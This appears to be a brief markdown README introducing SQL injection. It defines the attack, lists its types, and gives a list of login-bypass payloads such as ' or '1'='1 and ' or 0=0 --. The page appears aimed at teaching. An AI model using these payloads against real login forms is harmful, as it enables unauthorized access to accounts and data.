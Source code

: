 # SQL-Injection
SQL Injection is a cyber attack where hackers insert malicious SQL code into input fields in web applications to gain unauthorized access to sensitive information. To prevent it, developers must implement secure coding practices and input validation.
# Types of SQL Injection
1.In Band
2.Out of Band
3.Inferential or Blind
# Authentication Bypass(Subverting Query Logic)
In short,SQL injection vulnerability allowing login bypass.To authenticate login panel some true conditions have been used.
Some payloads:
' or '1'='1

' or 0=0 --

" or 0=0 --

' or 0=0 #

" or 0=0 #

'="or'

hi" or 1=1 --

hi' or 1=1 --


